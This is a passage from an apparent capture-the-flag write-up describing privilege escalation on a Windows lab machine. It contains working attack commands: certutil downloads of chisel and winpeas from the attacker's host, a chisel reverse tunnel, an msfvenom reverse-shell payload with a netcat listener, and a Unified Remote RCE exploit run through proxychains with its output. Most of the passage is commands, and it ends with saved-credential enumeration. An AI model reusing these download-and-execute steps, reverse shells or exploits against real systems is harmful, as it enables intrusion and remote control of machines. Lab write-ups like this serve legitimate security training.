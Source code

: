 this way, I gain access to the victim machine, now I need to Escalate privilege.

**I use "netstat -ano" to find open internal ports on the vicitm machine,  and then I use powershell to check these ports**
https://adamtheautomator.com/netstat-port/

``` bash
Get-NetTCPConnection -State Listen | Select-Object -Property *,@{'Name' = 'ProcessName';'Expression'={(Get-Process -Id $_.OwningProcess).Name}} | FT -Property LocalAddress,LocalPort,ProcessName
``` 

I discover a "RemoteServerWin" process, which is an executable EXE file associated with the Unified Remote process,  To exploit this, I use a Python script from "searchsploit"

First, I need to gain acces to the port using Chisel:

```powershell
#On the victim machine
cd \ProgramData
certutil.exe -f -urlcache -split http://10.10.14.4/chisel.exe chisel.exe
./chisel client 10.10.14.4:1234 R:9512:127.0.0.1:9512 // or ./chisel client 10.10.14.4:1234 R:socks (to use all openports)

#On my machine
sudo python -m http.server 80
./chisel_linux server --reverse -p 1234
```

Now that the port is accessible from my side, I execute the exploit. But i need a payload first, which I create whit msfvenom

```powershell
#On my machine
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=4444 -f exe -o rev.exe

rlwrap nc -nlvp 4444

sudo python -m http.server 80

❯ proxychains python2 unified-remote-rce.py  127.0.0.1 10.10.14.3 rev.exe
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/libproxychains4.so
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  127.0.0.1:9512  ...  OK
[+] Connecting to target...
[+] Popping Start Menu
[+] Opening CMD
[+] *Super Fast Hacker Typing*
[+] Downloading Payload
[+] Done! Check listener?
```

I gain access as the user *clara* user flag bf4e6392ae94159fba9de9c9b4102d2b

Now I need to escalate to Administrator.

I enumerate the system with winpeas
```powershell
#On my machine
sudo python -m http.server 80

#On the victim machine
certutil.exe -f -urlcache -split http://10.10.14.4/winpeas.exe winpeas.exe
.\winpeas.exe 
͹ Browsers Information 

͹ Showing saved credentials for Firefox
     Url:           http://localhost:8000
     Username:      hancliffe.htb
```